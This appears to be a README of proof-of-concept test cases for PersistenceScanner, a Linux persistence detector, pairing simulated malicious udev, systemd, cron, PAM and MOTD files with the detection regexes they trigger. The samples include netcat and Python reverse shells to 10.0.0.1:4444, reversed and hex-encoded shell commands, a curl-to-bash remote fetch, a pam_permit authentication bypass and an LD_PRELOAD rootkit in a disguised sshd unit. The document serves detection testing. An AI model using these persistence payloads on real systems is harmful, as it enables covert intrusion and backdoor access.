







# PersistenceScanner - Proof of Concept (PoC)

> **⚠️ Safety & Testing Environment Disclaimer:** All Proof of Concept (PoC) artifacts and test payloads documented below were created and validated exclusively inside an **isolated Virtual Machine (VM)** environment. Do not deploy these configurations into active system directories (`/etc/udev/rules.d/`, `/etc/pam.d/`, `/etc/cron.d/`, etc.) on production or host machines.

This document presents targeted Proof of Concept (PoC) test scenarios designed to validate **PersistenceScanner** against advanced evasion, obfuscation, and stealth persistence techniques across its five core persistence vectors.

> **Rule Coverage Scope:** The scenarios documented below represent a curated subset of test cases and **do not cover all detection signatures** defined in `rules.json` (such as standalone cryptomining indicators, raw `/dev/tcp` or `socat` reverse shells, `wget` downloaders, or `xxd` reconstruction rules). Every documented PoC maps directly to specific signatures in `rules.json`, organized by persistence vector.

---

## Table of Contents
* [1. Udev Rules](#1-udev-rules)
  * [PoC 1.1: Udev Macro Substitution Evasion & Process Tree Detachment](#poc-11-udev-macro-substitution-evasion--process-tree-detachment)
  * [PoC 1.2: Udev Process Tree Detachment & Inline Python Reverse Shell](#poc-12-udev-process-tree-detachment--inline-python-reverse-shell)
* [2. Systemd Services](#2-systemd-services)
  * [PoC 2.1: Systemd Environment Injection & Encoded Evasion](#poc-21-systemd-environment-injection--encoded-evasion)
* [3. Cron Jobs](#3-cron-jobs)
  * [PoC 3.1: Cron String Reversal](#poc-31-cron-string-reversal)
* [4. PAM Authentication](#4-pam-authentication)
  * [PoC 4.1: PAM Authorization Bypass & Shared Memory Trigger](#poc-41-pam-authorization-bypass--shared-memory-trigger)
- [5. MOTD & Shell Profile Scripts](#5-motd--shell-profile-scripts)
  - [PoC 5.1: MOTD Dynamic Script Execution Persistence via curl](#poc-51-motd-dynamic-script-execution-persistence-via-curl)
  - [PoC 5.2: Stealth Service Activation via Raw D-Bus Messaging](#poc-52-stealth-service-activation-via-raw-d-bus-messaging)
  - [PoC 5.3: Hex-Encoded Payload](#poc-53-hex-encoded-payload)

---

## 1. Udev Rules

### PoC 1.1: Udev Macro Substitution Evasion & Process Tree Detachment

**Vector:** Attackers target a single deterministic boot-time device (`KERNEL=="rtc0"`, the hardware real-time clock initialized once per boot) and combine Udev environment variables (`ENV{}`) with macro expansion (`$env{}`) and `eval` to hide reverse shell execution from simple string inspection, piping the command into the `at` daemon to break parent-child process tree visibility and bypass the strict `systemd-udevd` execution timeout.

**Simulated File:** `99-malicious.rules`

```
ACTION=="add", KERNEL=="rtc0", ENV{CMD}="nc -e /bin/bash 10.0.0.1 4444", RUN+="/bin/sh -c 'echo \"eval $env{CMD}\" | at now'"
```

**Matched Indicators (`rules.json`):**
* `\bnc\s+-e` — **CRITICAL** (*Reverse shell attempt using netcat with execution flag*)
* `eval\s+(\$env|%E)\{` — **MEDIUM** (*Udev macro substitution evasion attempt detected in extracted payload*)
* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon to break process tree visibility*)

**PoC Evidence:**

[](assets/test-udev.png)

---

### PoC 1.2: Udev Process Tree Detachment & Inline Python Reverse Shell

**Vector:** Attackers target network interface events (`SUBSYSTEM=="net", KERNEL=="eth0"`) to ensure connectivity is ready, pairing `at` process detachment with a fileless inline Python reverse shell (`python3 -c`) to avoid relying on `netcat` binaries

**Simulated File:** `99-network-sync.rules`

```
ACTION=="add", SUBSYSTEM=="net", KERNEL=="eth0", RUN+="/bin/sh -c 'echo \"python3 -c '\''import socket;s=socket.socket();s.connect((\\\"10.0.0.1\\\",4444))'\''\" | at now'"
```

**Matched Indicators (`rules.json`):**
* `\b(python[23]?|perl|php|ruby|lua)\s+-(c|e|r)\s*["']?.*(socket|subprocess|eval|exec|system)` — **CRITICAL** (*Inline script execution using alternative system interpreters.*)
* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon to break process tree visibility*)

**PoC Evidence:**

[](assets/test-udev-net.png)

---

## 2. Systemd Services

### PoC 2.1: Systemd Environment Injection & Encoded Evasion

**Vector:** Attackers utilize the `Environment=` directive to silently inject a userland rootkit library (`LD_PRELOAD`) that is inherited by child processes spawned via `ExecStart=`, cloaking the obfuscated Base64 reverse shell from standard process and network inspection tools while splitting malicious indicators across separate unit directives.

**Simulated File:** `backdoor.service`

```
[Unit]
Description=OpenSSH Daemon Service
After=network.target

[Service]
Type=simple
Environment="LD_PRELOAD=/tmp/.libhook.so"
ExecStart=/usr/sbin/sshd -D
Restart=always

[Install]
WantedBy=multi-user.target
```

**Matched Indicators (`rules.json`):**
* `LD_PRELOAD` — **CRITICAL** (*Shared library preloading injection*) — *Triggered via Environment field*
* `(/tmp|/dev/shm|/var/tmp|/run/user(/[0-9]+)?)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*) — *Triggered via Environment field*

**PoC Evidence:**

[](assets/test-systemd.png)

---

## 3. Cron Jobs

### PoC 3.1: Cron String Reversal

**Vector:** Attackers obfuscate payloads using string reversal (`rev`) inside scheduled cron tasks to evade static signature matching.

**Simulated File:** `root_cron`

```
* * * * * root echo "4444 1.0.0.01 hsab/nib/ e- cn" | rev | bash
```

**Matched Indicators (`rules.json`):**
* `rev\s*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Reversed command string piped directly into a shell interpreter.*)
* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)

**PoC Evidence:**

[](assets/test-cron.png)

---

## 4. PAM Authentication

### PoC 4.1: PAM Authorization Bypass & Shared Memory Trigger

**Vector:** Attackers force unconditional authentication bypass (`pam_permit.so`) while executing payloads located in shared RAM disk space (`/dev/shm`) upon login events.

**Simulated File:** `pam-test`

```
#%PAM-1.0
auth       sufficient   pam_permit.so
session    optional     pam_exec.so /dev/shm/.harvest.sh
```

**Matched Indicators (`rules.json`):**
* `auth\s+sufficient\s+pam_permit\.so` — **CRITICAL** (*PAM authentication bypass backdoor*)
* `pam_exec\.so` — **HIGH** (*Execution of external commands during PAM authentication*)
* `(/tmp|/dev/shm|/var/tmp|/run/user(/[0-9]+)?)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*)

**PoC Evidence:**

[](assets/test-pam.png)

---

## 5. MOTD & Shell Profile Scripts

### PoC 5.1: MOTD Dynamic Script Execution Persistence via curl

**Vector:** Attackers place executable scripts into `/etc/update-motd.d/` that stealthily fetch and execute remote fileless payloads bypassing SSL verification and directly piping to the shell.

**Simulated File:** `99-test-curl`

```
#!/bin/sh
curl -s -k https://10.0.0.1/update.sh | bash
```

**Matched Indicators (`rules.json`):**
* `\bcurl\s+.*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Silent HTTP request via curl piped directly to a shell (Fileless payload execution)*)
* `\bcurl\s+.*-(k|-insecure)` — **HIGH** (*HTTPS request via curl with SSL/TLS verification disabled*)
* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)

**PoC Evidence:**

[](assets/test-motd.png)

---

### PoC 5.2: Stealth Service Activation via Raw D-Bus Messaging

**Vector:** To avoid triggering process monitoring alerts tied to standard service management binaries (such as `systemctl`), attackers place a dynamic MOTD script in `/etc/update-motd.d/` that sends raw D-Bus messages directly to `org.freedesktop.systemd1` to silently activate a dormant backdoor unit upon user login.

**Simulated File:** `99-dbus-test`

```
#!/bin/sh
dbus-send --system --dest=org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager.StartUnit string:backdoor.service string:replace
```

**Matched Indicators (`rules.json`):**
* `(dbus-send|busctl)\s+.*org\.freedesktop\.systemd1` — **HIGH** (*D-Bus messaging used to secretly trigger systemd daemon actions*)

**PoC Evidence:**

[](assets/test-dbus.png)

---

### PoC 5.3: Hex-Encoded Payload

**Vector:** Attackers construct obfuscated shell commands using hexadecimal escape sequences via `printf`.

**Simulated File:** `99-test`

```
#!/bin/bash
printf '\x6e\x63\x20\x2d\x65\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x31\x30\x2e\x30\x2e\x30\x2e\x31\x20\x34\x34\x34\x34' | bash
```

**Matched Indicators (`rules.json`):**

* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
* `printf\s+['"].*(\\x[0-9a-fA-F]{2}){3,}` — **HIGH** (*Hex-encoded string payload constructed via printf.*)

**PoC Evidence:**

[](assets/test-printf.png)